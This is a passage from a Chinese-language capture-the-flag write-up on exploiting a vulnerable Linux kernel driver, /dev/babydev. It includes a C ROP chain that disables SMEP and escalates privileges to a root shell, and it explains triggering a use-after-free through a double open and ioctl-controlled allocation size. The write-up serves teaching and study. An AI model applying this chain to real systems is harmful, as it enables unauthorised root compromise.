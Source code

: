 这样一来，我们就知道了关闭保护的方法了。关闭保护之后，我们就可以使用上一道题的ROP进行提权，在本题中，ROP应该在最后一步被触发。我们写出ROP链：

```c
	unsigned long long rop[20];
	int idx = 0;
	rop[idx++] = poprdi_ret;			// mov rdi, 6f0h
	rop[idx++] = 0x6f0;
	rop[idx++] = movcr4rdi_poprbp_ret;	// close SMEP
	rop[idx++] = 0;						// for pop rbp
	rop[idx++] = rise_cred;
	rop[idx++] = swapgs_poprbp_ret;		// ready to return to user mode
	rop[idx++] = 0;
	rop[idx++] = iretq;
	rop[idx++] = shell;
	rop[idx++] = user_cs;
	rop[idx++] = user_rflags;
	rop[idx++] = user_sp;
	rop[idx++] = user_ss;
```

**Step 3: UAF**
在ROP确定之后，接下来要思考的就是如何通过UAF触发ROP。

![](8.png)
在模块加载时，会创建一个设备名为babydev，在/dev/babydev。
![](9.png)
在本题的file_operations结构体中，定义有open函数对应的函数指针为babyopen，在我们打开/dev/babydev时会执行这个函数。
![](10.png)

```c
static __always_inline __alloc_size(3) void *kmem_cache_alloc_trace(struct kmem_cache *s,
								    gfp_t flags, size_t size)
{
	void *ret = kmem_cache_alloc(s, flags);

	ret = kasan_kmalloc(s, ret, size, flags);
	return ret;
}
```
上面是kmem_cache_alloc_trace函数的源码，这是一个内核内存分配的函数，可以看到babyopen中分配的内存大小为0x40，分配得到的内存指针会保存到一个全局变量babydev_struct之中。
![](11.png)
在babyrelease函数中会将我们分配的指针释放。但是由于模块在内存中只会加载一个，当我们同时打开两次此设备时，两设备实际上是相同的，全局变量共用，在一个设备中kfree，但是在另一个设备中仍然可以进行操作，这便是UAF，与用户态pwn相同。我们以可读可写的方式打开此设备，因此open函数的第二个参数为2。（下图为参数说明）
![](12.png)
再来看下babyioctl函数。
![](13.png)
这里的反汇编似乎有点问题，kmalloc的第一个参数应该是size，但是这里肯定不是传入一个未初始化的值。![](14.png)
从汇编可以知道这里传入kmalloc的第一个参数实际上就是我们ioctl函数调用的第三个参数，也即我们可以通过ioctl函数修改这里分配到的内存的大小。
